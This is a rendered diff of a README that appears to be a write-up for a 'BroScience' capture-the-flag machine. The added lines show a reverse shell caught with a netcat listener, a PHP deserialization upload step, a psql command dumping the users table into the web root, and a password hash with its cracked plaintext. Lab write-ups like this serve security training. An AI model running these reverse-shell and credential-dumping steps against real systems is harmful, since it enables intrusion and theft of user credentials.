

Before and after one commit to ivanbelenky/broscience, a Markdown page: README.md, the part around the change. GitHub-like rendering; pictures changed too: assets/2023-01-22-00-59-08.png (added); blank space fills up the shorter version.

Commit message:
fixed server

````diff
--- a/README.md
+++ b/README.md
@@ -136,24 +136,37 @@ $ python3 upload_server.py &
 $ python3 unsafe_unserialize.py /var/www/html/reverse_shell.php revshell
 ```
 
+```sh
+10.10.11.195 - - [22/Jan/2023 00:56:53] "GET /revshell HTTP/1.0" 200 -
+10.10.11.195 - - [22/Jan/2023 00:56:53] "GET /revshell HTTP/1.0" 200 -
+10.10.11.195 - - [22/Jan/2023 00:56:54] "GET /revshell HTTP/1.0" 200 -
+```
+
 - check if file got uploaded
+
+![](/assets/2023-01-22-00-59-08.png)
+
 
 - open netcat
 ```sh
-$ nc -lvnp 4444
+$ nc -lvnp 4444 # https://broscience.htb/reverse_shell.php
+Listening on 0.0.0.0 4444
+Connection received on 10.10.11.195 39598
 
 ```
+
 we are in
 
 ## `user`
 
+- we got credentials for the database
 
+```sh
+$ psql -h localhost -p 5432 -U dbuser -d broscience -c "\copy (SELECT * FROM users) TO '/var/www/html/users.csv' WITH CSV HEADER"
+```
 
+- `hash` for bill = 13edad4932da9dbb57d9cd15b66ed104
+- tried with bruteforcing with single world `php ./php/bruteforce.php 13edad4932da9dbb57d9cd15b66ed104`, no luck
+- `hashcat` --> `iluvhorsesandgym`
 
-## once reversed
-<br>
-
-- psql passwords, dump to csv
-  - psql -h localhost -p 5432 -U dbuser -d broscience -c "\copy (SELECT * FROM users) TO '/var/www/html/users.csv' WITH CSV HEADER"
-  - RangeOfMotion%777
-  - iluvhorsesandgym
+`success`
````
Also changed, not shown: 1 other file.
